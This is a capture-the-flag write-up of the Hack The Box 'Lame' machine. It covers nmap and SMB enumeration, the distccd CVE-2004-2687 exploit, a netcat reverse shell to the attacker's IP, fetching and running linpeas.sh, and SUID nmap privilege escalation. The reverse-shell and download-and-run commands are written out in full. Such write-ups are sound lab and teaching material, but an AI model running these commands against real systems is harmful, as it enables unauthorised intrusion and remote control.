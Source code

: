# Lame - 10.10.10.3
### Don't forget to check out the Lame.pdf file. To see it in color :)

![Lame_info_card](https://user-images.githubusercontent.com/110210595/187806371-c87c74bd-6111-458a-8cd7-62a899083d09.png)

Started off with a nmap scan `nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3`<br>
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.
We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.<br>
But there was other ports open such as port 21 with the version number of <em><strong>vsftpd 2.3.4</em></strong> (This version of vsftpd is vulnerable to backdoor command executionCVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck.<br>
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.

![nmap_scan_pt1](https://user-images.githubusercontent.com/110210595/186279936-8afa6919-9add-4034-bbe4-2829a8d84580.png)

![nmap_scan_pt2](https://user-images.githubusercontent.com/110210595/186279953-2fb886f4-5574-4cb1-b27b-306826c0b9ca.png)

I see that smb is open. 139/445. I run `smbmap -H 10.10.10` and get back some users.

![smbmap_results](https://user-images.githubusercontent.com/110210595/185814007-319d68bc-004b-4242-b3e0-a943b4eda8e9.png)

we can see that tmp is <em><strong>READ, WRITE</em></strong>. Lets login and see what we can find.<br>
I use `smbclient \\\\10.10.10.3\\tmp` and we get a hit.<br>
I use `ls` to see what we can find. Unfortunately there is nothing here either.<br>
We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.

![smbclient\tmp_results](https://user-images.githubusercontent.com/110210595/186279990-d0c780e7-424c-43e0-b62f-eea7d5ccf836.png)

I go back to the nmap results and see port 3632 is open and it gave us the version of application running. <em><strong>distccd v1</em></strong><br>
I go to google and search for "<em><strong>distccd v1 exploit</em></strong>" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855<br>
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is <em><strong>command, host, port</em></strong><br>
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did  `chmod +x CVE-2004-2687.py`<br>
the file is ready to be used. First I started a listener on my attacking machine with `nc -lvnp 9001` and then used the following command<br>
`./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` No good, got errors.<br>
Then I tried. `python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python.<br>
Next up,  `python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh"` Success, we get a shell!

![proof_of_user_shell](https://user-images.githubusercontent.com/110210595/186280044-7ad463f8-0082-4d42-9e21-3e0b734cc0ed.png)

![COWABUNGA](https://user-images.githubusercontent.com/110210595/186280016-5a9d0378-3c30-4f95-89e0-c68eea7c86d1.png)

Let's upgrade the shell. I used the following.<br>
`python -c 'import pty; pty.spawn("/bin/bash")'` python3 and python2 didn't work.<br>
`export TERM=xterm `<br>
`stty raw -echo && fg`<br>
`enter`<br>
`enter`<br>

We're a normal user daemon. I started off with `sudo -l` but it asked for a password. Let's move on.
I look around a bit and `cd /home` directory and do a `ls` and see what's there. Nothing good in the user directory but I did go into makis and find the <em><strong>user.txt</em></strong> file. I use <em><strong>cat user.txt</em></strong> at it and we get out our first flag.  

![user_txt](https://user-images.githubusercontent.com/110210595/186280050-4c2d9a7e-9b61-4b18-9d51-f14d3659c34f.png)

![Mikey_being_a_savage](https://user-images.githubusercontent.com/110210595/186280056-9b22e873-4987-4845-8417-ec2a8581c9ab.png)

Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh<br>
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine.<br>
I use `python3 -m http.server 80` to get the server up and running.<br>
On the victim machine ill be in the <em><strong>/tmp</em></strong> directory and use 'wget://10.10.14.10/linpeas.sh' which is my attacking machines ip from HackTheBox. 
The file gets transferred over no problem. I use `chmod +x linpeas.sh` making it an executable file.<br>
I use `./linpeas.sh` and it runs no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.

![exploit_suggester_results_pt-1](https://user-images.githubusercontent.com/110210595/186280090-9325ff31-2274-4c8b-a279-f6133ef3a11b.png)

![exploit_suggester_results_pt-2](https://user-images.githubusercontent.com/110210595/186280109-1ba8b1b6-6a8c-43ec-87f5-d5e0b7eac263.png)

![exploit_suggester_results_pt-3](https://user-images.githubusercontent.com/110210595/186280119-1ee8d359-4e1a-4a25-8040-728189330987.png) 

<em><strong>/usr/bin/nmap suid</em></strong><br>
I head over to https://gtfobins.github.io/ and search for <em><strong>nmap</em></strong><br>
I 'cd /usr/bin' where the suid is located.<br>
I start off with shell code (a) and nothing happened. So I keep going down the list.<br>
Shell (b) worked!

![image](https://user-images.githubusercontent.com/110210595/185814276-6c882b38-ce84-4183-a828-49b30153bc7a.png)

we can now 'cd /root' and see what is there which is the <em><strong>root.txt</em></strong>flag!<br>
we have successfully rooted this box!

![image](https://user-images.githubusercontent.com/110210595/185814294-98c871d4-6e47-46cd-b258-79796039924c.png)

![image](https://user-images.githubusercontent.com/110210595/185814307-20443976-cd82-46bb-8929-1e17fb164988.png)
